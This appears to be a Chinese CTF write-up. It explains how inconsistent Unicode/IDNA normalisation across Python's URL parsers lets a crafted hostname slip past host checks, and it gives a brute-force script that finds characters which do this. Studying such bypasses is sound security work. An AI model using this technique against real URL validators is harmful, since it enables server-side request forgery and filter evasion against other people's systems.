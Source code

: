 看起来是需要想办法通过前两个判断, 进入第三个, 而 host 是一样的。感觉无从下手, 看了一下 payload, 本题的知识点是: **Python 这里用到的三种解析方式在遇到特殊 unicode 时可能返回预期外的结果:**

> 参考链接: [Blackhat PDF](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)

### Unicode 规范化

解析网址的时候会将 Unicode 转为正常字符, 这里没有对转义可能出现的字符做特殊处理: PDF 中提到, `urlsplit()` 未处理 NFKC 规范化，导致 `%`和全角符号（`＃`）被滥用

### 枚举爆破

知道了思路, 用枚举的思路试出可用的 unicode 字符:

{% hideToggle unicode爆破 %}

```python
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        # 考虑让 unicode 滥用后占用 c 的位置来实现 bypass
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
 
def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
 
 
if __name__=='__main__':
    get_unicode()
```
